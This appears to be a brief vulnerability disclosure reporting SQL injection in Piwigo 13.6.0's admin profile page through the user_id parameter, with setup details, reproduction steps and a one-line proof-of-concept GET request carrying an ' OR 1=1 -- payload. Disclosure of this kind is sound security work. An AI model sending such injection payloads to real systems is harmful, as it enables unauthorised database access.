

# Vulnerability Type

SQL Injection

# Description

Piwigo 13.6.0 is vulnerable to SQL Injection via in the "profile" function.

# PoC Report

 ## Environment Setup

 - Software Link: https://github.com/Piwigo/Piwigo
 - Version: 13.6.0
 - Tested on: Windows 10

 ## Exploit Description

Insufficient filtering of the `user_id` parameter leads to SQL injection and need satisfy the `page` path parameter.

 ## Steps to Reproduce

 1. Login as an admin user.
  2. Send the request.
  3. Observe the result: 



 ## Proof Of Concept
```
GET /admin.php?page=profile&user_id=' OR 1=1 --  HTTP/1.1
Host: piwigo
```

